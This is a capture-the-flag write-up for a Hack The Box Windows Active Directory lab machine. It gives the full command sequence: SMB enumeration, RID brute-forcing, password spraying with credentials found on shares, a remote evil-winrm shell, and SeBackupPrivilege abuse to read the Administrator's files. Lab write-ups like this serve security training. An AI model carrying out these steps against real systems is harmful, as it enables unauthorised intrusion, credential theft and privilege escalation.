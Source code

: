 ### Part one: Scanning and Enumeration

I begin with an nmap scan.

```
nmap -sC -sV 10.10.11.27
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/0.png)

I can see many services are running and machine is using Active Directory service and there are many service to fiddle with. I am going to start with samba and enumerate shares using smbclient:

```
smbclient -N -L $TAR, (TAR means target ip:TAR=10.10.11.35)
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/1.png)

let’s check if I can login with guest account or not, and if yes what permission we have using netexec:

```
nxc smb 10.10.11.35 -u ‘a’ -p ‘’ — shares
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/2.png)

I can read HR and $IPC share, lets see HR contents using smbclient. there is a file called ‘Notice from Hr.txt’

![NMAP](/static/writeups/HTB-S-VI/Cicada/3.png)

![NMAP](/static/writeups/HTB-S-VI/Cicada/4.png)

It contains password for default user 'Cicada$M6Corpb\*@Lp#nZp!8' can be seen in this file, lets keep note of it.  
 Now with a password in hand, lets find some usernames so, we can use password we found earlier. As it is active directory we can Enumerate Users by Bruteforcing RID using Netexec:

```
sudo nxc smb $TAR -u guest -p ‘’ — rid-brute
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/5.png)

I can find many user from this command, lets keep note of it. let’s use previously found password from ‘Notice from HR.txt’ and use these user to see if any username matches with password.

I am using netexec for this task also.

```
sudo nxc smb $TAR -u user.txt -p ‘Cicada$M6Corpb\*@Lp#nZp!8’ — continue-on-success
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/6.png)

I can see user ‘michael.wrightson’ matches with that pasword. lets use these credentials in Netexec to see what permission we have on share with this account.

```
nxc smb 10.10.11.35 -u ‘michael.wrightson’ -p ‘Cicada$M6Corpb\*@Lp#nZp!8’ — shares
```

Nothing interesting same permission as guest account so, lets use ldapdomaindump using michael to find some more information.

```
ldapdomaindump 10.10.11.35 -u ‘cicada\michael.wrightson’ -p ‘Cicada$M6Corpb\*@Lp#nZp!8’
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/7.png)

I find that David Orelius left his password in description: ‘aRt$Lp#7t\*VQ!3’. lets use the credentials in Netexec to see what permission I have on share with this account.

![NMAP](/static/writeups/HTB-S-VI/Cicada/8.png)

david can access dev share lets see what is in there using smbclient

```
smbclient -U david.orelious //$TAR/DEV
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/9.png)

there is file called backup_script.ps1 which contains emily.oscars password: ‘Q!3@Lp#M6b*7t*Vt’. Lets see what permission i have on share using these credentials using NetExec:

```
nxc smb 10.10.11.35 -u ‘emily.oscars’ -p ‘Q!3@Lp#M6b*7t*Vt’ — shares
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/10.png)

emily can read all share except DEV and have write access in C$ share.

### Part Two: Finding Foothold

Accessing c$ share using emily account, searching for interesting files i found a file called user.txt in Desktop folder ‘C:\Users\emily.oscars.cicada\Desktop’ from where I am able to get user flag.

Using evil-winrm with emily account, I am able to get shell in the machine.

```
sudo evil-winrm -i $TAR -u emily.oscars -p ‘Q!3@Lp#M6b*7t*Vt’
```

![NMAP](/static/writeups/HTB-S-VI/Cicada/11.png)

and using net user emily.oscars, I can see that emily is part of backup_operators group.

lets keep searching, I found a file called root.txt on Desktop folder under Administrator directory.

![NMAP](/static/writeups/HTB-S-VI/Cicada/12.png)

But I cannot download or access that file with emily.

### Part Three: Privilege Escalation

As a built-in AD groups, **Backup operators** can log into a computer and shut it down. Can create backup of local files regardless of permission on that file. NTDS.DIT can be cloned.  
 lets look for a way to escalate privilege in order to read ‘root.txt’. by googling for a while i found a way to escalate privilege of emily.oscars [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges)

Using two dll called SeBackupPrivilegeUtils.dll and SeBackupPrivilegeCmdLets.dll, I am able to copy and access file that high level user like admin can access.

![NMAP](/static/writeups/HTB-S-VI/Cicada/13.png)

I can download these file from internet and manually upload them in write access directory of emily.oscars and using the method above i can escalate privilege and copy it to directory with write permission using this command:

> Copy-FileSeBackupPrivilege C:\Users\Administrator\Desktop\root.txt c:\\Users\emily.oscars.CICADA\Downloads\a.txt

![NMAP](/static/writeups/HTB-S-VI/Cicada/14.png)

and I got root flag like this:

![NMAP](/static/writeups/HTB-S-VI/Cicada/15.png)

cheers!!

![](/static/writeups/HTB-S-VI/Cicada/cicadaa.png)
